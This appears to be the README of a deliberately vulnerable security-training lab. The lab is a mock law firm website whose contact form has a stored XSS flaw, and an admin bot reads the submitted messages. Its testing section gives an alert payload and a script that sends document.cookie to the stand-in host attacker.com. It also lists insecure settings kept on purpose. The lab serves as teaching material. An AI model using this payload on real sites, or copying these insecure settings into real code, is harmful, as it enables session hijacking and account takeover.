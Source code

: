 # Law Firm XSS Stored Vulnerability Lab

## Description

This lab simulates a professional law firm website with a deliberately embedded **stored XSS vulnerability** in the contact form. The application demonstrates how attackers can exploit stored XSS vulnerabilities to steal session cookies and gain unauthorized access to administrative functions.

## Scenario

The application represents "Martin & Associés", a professional law firm website featuring:
- A public-facing website with contact form
- An administrative dashboard for managing client messages
- An automated admin bot that reviews messages every 30 seconds
- Internal data containing sensitive company information

## Vulnerability Details

### Stored XSS in Contact Form
- The contact form accepts user input without proper sanitization
- Submitted messages are stored in the database and displayed to administrators
- JavaScript code in messages executes when viewed by the admin bot
- This allows attackers to steal admin session cookies

### Attack Chain
1. **Payload Injection**: Attacker submits malicious JavaScript through contact form
2. **Storage**: Malicious payload is stored in the database
3. **Bot Trigger**: Admin bot automatically visits dashboard every 30 seconds
4. **Execution**: JavaScript executes in admin context, stealing session cookie
5. **Access**: Attacker uses stolen cookie to access internal data
6. **Flag Retrieval**: Attacker obtains the final flag from restricted area

## Quick Start

### Using Docker Compose (Recommended)

```bash
# Clone and navigate to the project
cd law-firm-xss-lab

# Start the application
docker-compose up -d

# Access the application
open http://localhost:3206
```

### Manual Setup

```bash
# Install dependencies
npm install

# Start the application
npm start

# In another terminal, start the admin bot
npm run bot
```

## Access Information

- **Application URL**: http://localhost:3206
- **Admin Dashboard**: http://localhost:3206/admin

## Testing the Vulnerability

### 1. Basic XSS Test
Submit this payload through the contact form:
```html
<script>alert('XSS Test')</script>
```

### 2. Cookie Theft Payload
Submit this payload to steal admin cookies:
```html
<script>
fetch('http://attacker.com/steal?cookie=' + encodeURIComponent(document.cookie));
</script>
```

### 3. Automated Testing
Run the included test suite:
```bash
python tests/test_xss_exploit.py
```

## File Structure

```
law-firm-xss-lab/
├── server.js              # Main Express server
├── bot.js                 # Admin bot simulation
├── package.json           # Node.js dependencies
├── docker-compose.yml     # Docker configuration
├── Dockerfile            # Container definition
├── public/               # Static files
│   ├── index.html        # Homepage
│   ├── contact.html      # Contact form
│   ├── admin-login.html  # Admin login
│   └── admin-dashboard.html # Admin dashboard
├── tests/                # Test files
│   └── test_xss_exploit.py
└── README.md             # This file
```

## Technical Details

### Technology Stack
- **Backend**: Node.js with Express
- **Database**: SQLite (in-memory)
- **Frontend**: HTML, CSS, JavaScript with TailwindCSS
- **Bot**: Puppeteer for automated browser simulation
- **Testing**: Python with requests library

### Security Features (Deliberately Vulnerable)
- No input sanitization on contact form
- Cookies accessible via JavaScript (httpOnly: false)
- Stored XSS vulnerability in message display
- Admin bot executes all JavaScript in messages

## Educational Objectives

This lab teaches:
- How stored XSS vulnerabilities work
- The impact of XSS on session management
- Cookie theft and session hijacking
- The importance of input validation and sanitization
- Real-world attack scenarios in business applications

## Troubleshooting

### Common Issues

1. **Port already in use**: Change port in `docker-compose.yml` or `server.js`
2. **Bot not starting**: Ensure Puppeteer dependencies are installed
3. **Tests failing**: Wait for application to fully start (10-15 seconds)

### Logs
```bash
# View application logs
docker-compose logs law-firm-app

# View bot logs
docker-compose logs admin-bot
```

## Contributing

This is an educational lab designed for security training. Please report any issues or suggestions for improvement.

## Disclaimer

**This is a deliberately vulnerable lab designed solely for educational purposes. Do not deploy this application in production environments or use it for malicious purposes.**

## License

MIT License - See LICENSE file for details. 